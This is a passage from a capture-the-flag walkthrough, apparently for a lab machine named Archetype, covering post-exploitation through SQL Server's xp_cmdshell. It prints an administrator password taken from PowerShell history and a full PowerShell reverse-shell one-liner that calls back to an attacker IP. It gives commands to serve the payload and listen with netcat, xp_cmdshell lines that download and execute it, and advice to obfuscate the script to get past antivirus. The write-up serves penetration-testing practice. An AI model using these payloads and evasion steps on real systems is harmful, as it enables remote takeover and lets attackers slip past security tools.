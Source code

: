     SQL> xp_cmdshell powershell Get-Content (Get-PSReadlineOption).HistorySavePath
    
    --------------------------------------------------------------------------------   

    net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
    
It is possible accessing to the victim host folders also by injecting a reverse shell. You can find more reverse shells at [RevShells.com](https://www.revshells.com/) or the [Invoke-PowerShellTcpOneLine](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1) by the [Nishang framework](https://github.com/samratashok/nishang), that is what we choose, and customize it with your current IP address, port, and other options — like the following PowerShell reverse shell as shell.ps1 (keep in mind that it’s an one-liner command):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.185",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

So, in the attacker machine, execute a small webserver in Python in order to host the file:

    python3 -m http.server 80
    
or

    python -m SimpleHTTPServer 80
    
listening on port 443 by using netcat:

    nc -lvnp 443
    
If you have your ufw firewall enabled in your VM, you’ll need to change the rules to allow incoming requests to ports 80 and 443:

    ufw allow from 10.10.10.27 proto tcp to any port 80,443
    
Then, we can execute the command to download and execute the reverse shell through xp_cmdshell:

    SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.185/shell.ps1\");"
    
or:

    SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadFile(\"http://10.10.14.185/shell.ps1\",\"C:\Users\Public\shell.ps1\");"
    SQL> xp_cmdshell "powershell "C:\Users\Public\shell.ps1"
    
This last command returns an error (*Invoke-Expression : Cannot bind argument to parameter 'Command' because it is null.*) but if you navigate on the "C:\Users\Public" folder, you can see the *shell.ps1* file.

Note: in both cases we have one more " but it is not a problem.
Note: the root path of the http://ipaddress/ corresponds to the folder where we start the http server.
Note (again): if you receive a message that the PowerShell script is not run because could contain malicious content, just obfuscate the commands inside the script, for example by using tools like [ISESteroids](http://www.powertheshell.com/isesteroids/) or [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) or, again, just google it.
